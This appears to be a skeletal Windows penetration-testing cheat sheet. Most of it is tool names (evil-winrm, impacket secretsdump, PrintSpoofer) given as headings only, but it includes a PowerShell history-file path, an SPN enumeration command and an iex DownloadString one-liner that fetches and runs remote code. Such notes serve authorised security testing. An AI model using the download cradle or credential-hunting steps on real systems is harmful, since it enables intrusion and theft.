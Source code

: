 # Windows Pentest Cheat Sheet

## Victim 

### Powershell

#### General

- PS History file
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

- enumerate Accounts in SPN
setspn -T medin -Q ​ */*



#### wget / ie

- Webdownload via ie
iex​(New-Object Net.WebClient).DownloadString('url/file') 


#### PowerUp.ps1

#### winpeas

### Tools 

https://github.com/dievus/printspoofer

## Attacker

### windows exploit suggestor

### evil-winrm

### smbmap

### smbclient

### python impacket

#### secretsdump.py

#### GetNPUsers

#### xfreerdp

